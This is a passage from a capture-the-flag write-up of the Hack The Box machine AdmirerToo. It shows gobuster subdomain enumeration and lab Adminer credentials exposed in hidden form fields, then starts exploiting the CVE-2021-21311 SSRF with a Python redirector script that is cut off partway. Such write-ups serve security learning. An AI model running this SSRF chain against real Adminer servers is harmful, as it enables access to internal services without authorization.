 We get `webmaster@admirer-gallery.htb`. Lets add it to our `/etc/hosts` file.

### Subdomains
Lets check if there is any other subdomains:
```bash
$ gobuster vhost -u http://admirer-gallery.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://admirer-gallery.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/03/24 14:42:25 Starting gobuster in VHOST enumeration mode
===============================================================
Found: db.admirer-gallery.htb (Status: 200) [Size: 2568]
```

Lets add `db.admirer-gallery.htb` to our `/etc/hosts` file too.

### DB.ADMIRER.GALLERY.HTB
Accessing http://db.admirer-gallery.htb we get the Adminer v4.7.8 portal:
![[admirertoo/images/image1.png]]
We have access to database via web. Let’s enter and look for any interesting tables. just hit enter, and we are in.
There’s only one table and nothing really interesting in that. The reason why it didn’t ask for any credentials is that the credentials are hard-coded in the page and POST them once we click on "enter" button"
```html
<input type="hidden" name="auth[driver]" value="server">  
<input type="hidden" name="auth[server]" value="localhost">  
<input type="hidden" name="auth[username]" value="admirer_ro">  
<input type="hidden" name="auth[password]" value="1w4nn4b3adm1r3d2!">  
<input type='hidden' name="auth[db]" value="admirer"/>  
<input type='hidden' name="auth[permanent]" value="1"/>
```

#### ADMINER CVE
After trying to use this credentials to login via SSH and failing I found a [CVE-2021-21311](https://www.cvedetails.com/cve/CVE-2021-21311/) that could be useful. It affects all Adminer fromv ersion 4.0.0 and before 4.7.9. As we can see in the machine is running version 4.7.8 so it is vulnerable!
Basically is a Server-Side Request Forgery to access an internal server/service.
There’s a [POC](https://github.com/vrana/adminer/files/5957311/Adminer.SSRF.pdf) already available for this. We just need to setup a redirector on our Kali Linux machine.

```python redirector.py
#!/usr/bin/env python3  
#python3 ./redirector.py 8000 http://127.0.0.1/  
import sys  
from http.server import HTTPServer, BaseHTTPRequestHandler  
  
if len(sys.argv)-1 != 2:  
	print("Usage: {} <port_number> <url>".format(sys.argv[0]))  
	sys.exit()  
  
class Redirect(BaseHTTPRequestHandler):  
	def do_GET(self):  
		self.send_response(302)  
```